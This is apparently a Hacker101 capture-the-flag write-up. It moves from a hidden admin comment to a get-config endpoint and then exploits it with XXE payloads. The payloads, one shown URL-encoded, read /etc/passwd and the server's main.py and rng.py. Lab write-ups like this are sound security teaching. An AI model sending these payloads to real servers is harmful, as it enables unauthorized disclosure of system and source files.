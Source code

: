 FLAG0
Found an admin page with burp.
https://xxxxxxxxxxxx.ctf.hacker101.com/admin

In the admin page we have a comment:
<!-- We should be using get-config for this on the client side. -->

https://xxxxxxxxxxxx.ctf.hacker101.com/get-config

On top of the page there is ```<?xml version="1.0" encoding="UTF-8"?>``` which indicates the server uses xml for config.

xxe payload: ```<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><config><location>&xxe;</location></config>```

using this website the payload can be turned into url friendly format: https://www.urlencoder.org/

https://xxxxxxxxxxxx.ctf.hacker101.com/get-config?data=%3C%3Fxml%20version%3D%221.0%22%3F%3E%3C%21DOCTYPE%20root%20%5B%3C%21ENTITY%20xxe%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%5D%3E%3Cconfig%3E%3Clocation%3E%26xxe%3B%3C%2Flocation%3E%3C%2Fconfig%3E

![Alt text](images/image.png)

The server is hosted with python so we can read the main.py file which has the first flag.

```<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "main.py">]><config><location>&xxe;</location></config>```

![Alt text](main.py)

In the main file we can see the server is using a custom rng file.

```<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "rng.py">]><config><location>&xxe;</location></config>```

![Alt text](rng.py)

FLAG1
